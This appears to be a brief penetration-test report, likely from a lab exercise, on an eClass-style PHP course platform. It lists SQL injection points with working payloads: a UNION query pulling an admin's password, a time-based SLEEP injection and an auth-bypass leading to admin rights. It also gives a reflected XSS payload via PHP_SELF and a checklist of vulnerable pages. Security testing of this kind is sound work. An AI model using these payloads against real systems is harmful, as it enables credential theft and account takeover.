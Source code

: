 # Security Rapport

## SQLi

### Tags
- Time-based -> T
- Boolean    -> B
- Union      -> U

### /modules/phpbb/
- `viewtopic.php`: ?topic=1&forum=1: topic param injectable: TBU
    -  **AND 12 = 13 ) UNION SELECT password, password FROM eclass.user WHERE username="drunkadmin" --+**

- `reply.php`: ?topic=1&forum=1: same as above.

- `newtopic.php`: ?subject=dasd&Dialog1=on&Dialog2=on&Dialog3=on&Dialog4=on&Dialog5=on&Dialog6=on&message=da&forum=1&submit=,
                    forum param injectable: TBU,
    - **subject=dasd&Dialog1=on&Dialog2=on&Dialog3=on&Dialog4=on&Dialog5=on&Dialog6=on&message=da&forum=-9196 UNION ALL SELECT CONCAT(0x7171767171,0x43586c6d6d437675427477685178697356526b754747774876676c514f4c616c454669716742744d,0x716b7a6271)-- -&submit=**

- `viewforum.php`:

### /modules/auth/
- `newprof.php`: nom_form=1&prenom_form=1&userphone=6505550100&uname=Smith"`true`"&email_form=skipfish@example.com&usercomment=skipfish&department=`1 AND (SELECT 9259 FROM (SELECT(SLEEP(5)))ipgP)`&proflang=1&submit=Submit&auth=1

- `opencourses.php`:

### /modules/dropbox/

### /modules/create_course

### /info_cours

### /modules/work

### /upgrade/
- `upgrade.php`: Auth bypass SQLi @ `login` param, horizontal privesc to admin,
                vulnerable function -> is_admin()::upgrade_functions.php


## XSS

### $_SERVER['PHP_SELF']

The site is tremendously vulnerable to XSS. By "trememndously" we mean that in every single location there is at least 1 XSS vector via `$_SERVER["PHP_SELF"]`. Because their is no sanitazation on this variable we can inject XSS payloads that get reflected in the site's source code onload. Payloads of the form `"><script> alert("DRAGONS")</script>` are a go. There are functions such as `lang_selections()`::baseTheme.php that carry this vuln with them, but also many other sites in the code that have the above mentioned functionality included.

### The rest
[v] adminannouncements.php
[v] edituser.php
[v] myagenda.php
[v] lostpass.php
[v] newprof.php
[v] newuserreq.php
[x] newuseradmin.php
[v] ldapnewuser.php
[x] ldapnewprofadmin.php
[v] messageList.php
[v] infocours.php
[v] dropbox_submit.php
[v] forum_admin.php
[v] create_course.php 
[v] profile.php
[v] editpost.php
[v] newtopic.php
[v] reply.php
[v] unregcours.php
[v] work.php
[v] adduser.php